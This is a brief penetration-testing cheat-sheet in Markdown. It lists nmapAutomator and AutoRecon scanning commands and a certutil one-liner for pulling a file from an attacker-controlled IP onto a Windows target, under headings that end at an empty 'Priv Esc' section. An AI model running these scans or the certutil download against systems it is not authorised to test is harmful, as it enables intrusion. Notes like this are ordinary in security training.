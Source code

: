 ### Enumeration 

- NmapAutomator (https://github.com/21y4d/nmapAutomator)
	- Scan Vulns (5 to 15 mins).  Usually what I start with
```
nmapAutomator.sh -t Vulns -o nmap_automator -H <IP>
```
- AutoRecon (https://github.com/Tib3rius/AutoRecon)
```
autorecon <ip>
```

### Moving files

- Certutil: on most Windows machine by default, super easy
```powershell
certutil -urlcache -split -f [http://IP/file]
```


### Priv Esc


